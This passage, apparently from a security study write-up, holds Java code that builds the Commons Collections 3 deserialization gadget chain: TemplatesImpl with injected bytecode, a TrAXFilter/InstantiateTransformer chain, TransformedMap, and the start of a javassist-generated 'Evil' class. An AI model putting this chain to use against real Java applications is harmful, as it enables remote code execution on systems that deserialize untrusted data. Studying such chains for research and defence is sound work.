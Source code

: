 ```java
        _bytecode.set(templates, targetByteCode);
        _tfactory.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Tran
sformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, chainedTransformer);
        outerMap.put("d1no", "web");
    }

    public static void main(String[] args) {
        try {
            trAxFilterDemo();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<img src="./images/11.png" alt="">

## TransformedMap

```java
package CommonsCollections3;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.TransformedMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 9:38 pm
 */
public class CommonsCollections3TransformedMap {

    public static void CC3() throws NotFoundException, CannotCompileException, IOException, IllegalAccessException, NoSuchFieldException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
```